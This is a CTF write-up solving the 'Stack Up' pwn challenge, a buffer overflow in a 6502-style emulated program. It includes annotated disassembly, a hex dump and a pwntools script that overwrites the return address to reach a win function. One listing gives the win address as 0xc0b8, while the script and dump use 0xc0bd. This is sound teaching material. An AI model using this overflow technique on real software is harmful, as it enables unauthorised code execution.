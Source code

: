 # Stack Up

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud & DavidP |
|  **Category** |  Pwn |
|  **Solves** |  3  |
|  **Difficulty** |  Easy |
| **Files** |  [stackup.zip](<stackup.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/fd8db8af-dffd-4d78-93e2-2979a733e94b)

# Solution

We are provided with two files. This chall is similar to the `Impossible Mission` challenge, but now its an pwn challenge. One binary and one file with data in it. If we use `strings` on file `program.prg` we get some strings, like the REDACTED flag:

```bash
$ strings program.prg
INTIGRITI{REDACTED_REDACTED}
Welcome! Something here...
Bye bye!
Hello
```

Lets disassemble it with our disassembler that we created in the reversing challenge. Here the output(With some comments of my own):

```bash
; Set keyboard as active input channel
004c LDX 3
004e JSR ffc9

; Start of the program. 
0051 LDA 20
0053 STA fb
0055 LDA c0
0057 STA fc
0059 JSR c0c9       ; Jumps to the print function
005c JSR c06d       ; Jumps to the function that takes our input
005f LDA 3c         ; Loads bye bye message
0061 STA fb
0063 LDA c0
0065 STA fc
0067 JSR c0c9       ; Jumps to the print function
006a RTS            ; Exits

; Take our input and does some checks
006b some var
006c some var
006d CLC
006e TSX
006f STX c06b       ; Stores the SP at some memory
0072 TXA
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX
0076 DEX
0077 TXS
0078 STA fd
007a LDA 1
007c STA fe
007e LDY 0
0080 LDA 0
0082 STA c06c
0085 JSR ffcf       ; This will take our input
0088 PHA
0089 LDA c06c       ; Loads our input length in the accumulator
008c CMP 64         ; Compares our input length in the accumulator with 0x64/100. 100 is Maxsize. OVERFLOW is here because we can input more characters than the buffer can take(50)
008e PLA
008f BEQ 11
0091 STA (fd), y
0093 INY
0094 INC c06c       ; Increments our input length
0097 CMP d          ; d is 0x13(carriage return) so checks if user clicks on enter
0099 BEQ 7
009b CMP a          ; a is 0x10(newline) so checks if user clicks on enter
009d BEQ 3
009f JMP c085
00a2 LDA 45
00a4 STA fb         ; Loads Hello message
00a6 LDA c0
00a8 STA fc
00aa JSR c0c9       ; Jumps to the print function
00ad LDA fd         ; Loads our input 
00af STA fb
00b1 LDA fe
00b3 STA fc
00b5 JSR c0c9       ; Jumps to the print function
00b8 LDX c06b       ; Grabs the SP and puts in the X register 
00bb TXS
00bc RTS

; Win function
00bd LDA 3          ; Loads the flag
00bf STA fb
00c1 LDA c0
00c3 STA fc
00c5 JSR c0c9       ; Jumps to the print function
00c8 RTS

; Print function
00c9 LDY ff
00cb INY
00cc LDA (fb), y
00ce JSR ffd2
00d1 BNE f8
00d3 RTS
```

So from here we can see that we have an buffer overflow vulnerability and that there is a win function.
We know 50 is the length so everything above 50 will be overflow. Our padding will be 51 because the buffer is 50 and SP points after the return address.
We can also see it in the disassembled output:

```bash
006e TSX            ; Puts SP in X register
006f STX c06b       ; Stores the SP at some memory
0072 TXA            ; Puts value at X register in accumulator
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX            ; Puts accumulator back in X register 
0076 DEX            ; Decrements X by 1
0077 TXS            ; Puts the value in the X register in the SP register
```

How do we know where we need to return?
When we decompile the binary with ghidra for example, we can find the init function:

```c
bool load_program(void *param_1,size_t param_2)
{
  if ((long)param_2 < 0x1001) {
    memcpy(&DAT_00114908,param_1,param_2);
    FUN_0010269e(0xffff);
    DAT_00108900 = 0xc000;          // program is loaded to 0xC000
  }
  return (long)param_2 < 0x1001;
}
```

We can see here that the base address is 0xc000. In the disassembled output from before we can see some addresses like `c0c4`, `c081`. Those are all addresses in the program. So to get the win address we can see in the disassembled output that the win starts at `00b8`:

```bash
; Win function
00b8 LDA 3 ; Loads the flag
00ba STA fb
00bc LDA c0
00be STA fc
00c0 JSR c0c4 ; Jumps to the print function
00c3 RTS
```

So the address is `0xc0b8`. We see that it loads the flag at offset 3. So lets see if the flag is there:

```bash
                 ,------- flag value --------------------.
                 v                                        v
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 4c c0 49 4e 54 49 47 ┊ 52 49 54 49 7b 52 45 44 │LL×INTIG┊RITI{RED│
│00000010│ 41 43 54 45 44 5f 52 45 ┊ 44 41 43 54 45 44 7d 00 │ACTED_RE┊DACTED}0│
│00000020│ 57 65 6c 63 6f 6d 65 21 ┊ 20 53 6f 6d 65 74 68 69 │Welcome!┊ Somethi│
│00000030│ 6e 67 20 68 65 72 65 2e ┊ 2e 2e 0a 00 42 79 65 20 │ng here.┊.._0Bye │
│00000040│ 62 79 65 21 00 48 65 6c ┊ 6c 6f 20 00 a2 03 20 c9 │bye!0Hel┊lo 0×• ×│
│00000050│ ff a9 20 85 fb a9 c0 85 ┊ fc 20 c9 c0 20 6d c0 a9 │×× ×××××┊× ×× m××│
│00000060│ 3c 85 fb a9 c0 85 fc 20 ┊ c9 c0 60 00 00 18 ba 8e │<×××××× ┊××`00•××│
│00000070│ 6b c0 8a e9 32 aa ca 9a ┊ 85 fd a9 01 85 fe a0 00 │k×××2×××┊×××•×××0│
│00000080│ a9 00 8d 6c c0 20 cf ff ┊ 48 ad 6c c0 c9 64 68 f0 │×0×l× ××┊H×l××dh×│
│00000090│ 11 91 fd c8 ee 6c c0 c9 ┊ 0d f0 07 c9 0a f0 03 4c │•××××l××┊_×•×_×•L│
│000000a0│ 85 c0 a9 45 85 fb a9 c0 ┊ 85 fc 20 c9 c0 a5 fd 85 │×××E××××┊×× ×××××│
│000000b0│ fb a5 fe 85 fc 20 c9 c0 ┊ ae 6b c0 9a 60 a9 03 85 │××××× ××┊×k××`×•×│
│000000c0│ fb a9 c0 85 fc 20 c9 c0 ┊ 60 a0 ff c8 b1 fb 20 d2 │××××× ××┊`××××× ×│
│000000d0│ ff d0 f8 60             ┊                         │×××`    ┊        │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

It indeed starts at that offset.

So if we put everything in a script we get:
> solve.py
```python
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```

Running this on remote will give us the flag.

Flag `INTIGRITI{d0_s0m3_r3tr0_pwn}`
